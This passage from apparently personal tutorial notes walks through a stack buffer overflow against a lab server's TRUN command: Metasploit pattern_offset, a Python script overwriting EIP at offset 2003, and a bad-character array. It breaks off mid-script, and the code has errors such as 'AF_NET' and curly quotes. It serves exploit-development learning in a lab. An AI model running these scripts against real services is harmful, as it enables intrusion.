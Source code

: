 Go back to terminal<br>
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337<br>
Hit enter<br>
If we did it right, that pattern will have an output of [*] Exact match at offset 2003<br>
Now we can test.  There are 2003 bytes before EIP, then bytes 2004, 2005, 2006, 2006 are the EIP.<br>
Interesting, that is a small chunk of code to fit a shell or new pointer in.</p>
<h2 class="code-line" data-line-start=153 data-line-end=154 ><a id="Overwriting_the_EIP_153"></a>Overwriting the EIP</h2>
<p class="has-line-data" data-line-start="154" data-line-end="168">Alter the demo script <a href="http://2.py">2.py</a>:<br>
{% highlight ruby %}<br>
#!/usr/bin/python  
import sys, socket  
shellcode = “A”*2003 + “B” * 4 # offset filler up to EIP, then 4 B's within EIP to check our work
try:  
    s=socket(socket.AF_NET,socket.SOCK_STREAM)  
    s.connect(('192.168.x.x',9999))  
    s.send(('TRUN /.:/ ' + shellcode))  
    s.close()  
except:  
    print “Error connecting to server”  
    sys.exit()   
{% endhighlight %}</p>
<hr>
<p class="has-line-data" data-line-start="169" data-line-end="177">chmod +x <a href="http://2.py">2.py</a><br>
./2.py<br>
In immunity, server accepts and crashes<br>
Looking in Immunity, AAAA’s are send to buffer<br>
EBP gets filled with 41414141 (AAAA)<br>
EIP gets filled with 42424242 (BBBB), exactly 4 B’s.<br>
Our offset is perfect.<br>
So now we look for bad characters to see what we CANNOT send to EIP to prevent blindly crashing with our payload.</p>
<h2 class="code-line" data-line-start=179 data-line-end=180 ><a id="Finding_Bad_Chars_179"></a>Finding Bad Chars</h2>
<p class="has-line-data" data-line-start="180" data-line-end="185">We need to generate shellcode<br>
We need to find outt what characters are good for the shellcode<br>
We need to find out what characters are bad for the shellcode<br>
This stuff will be hex<br>
By default, null byte is a bad char</p>
<p class="has-line-data" data-line-start="186" data-line-end="214">Google badchars (<a href="https://www.ins1gn1a.com/identifying-bad-characters/#sending-a-bad-character-array">https://www.ins1gn1a.com/identifying-bad-characters/#sending-a-bad-character-array</a>)<br>
Copy/paste the badChars variable into previous <a href="http://2.py">2.py</a> and edit like so:<br>
{% highlight ruby %}<br>
#!/usr/bin/python  
import sys, socket  
badChars = (  
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"  
)  
shellcode = “A”*2003 + badChars # offset filler up to EIP, then badChars in EIP  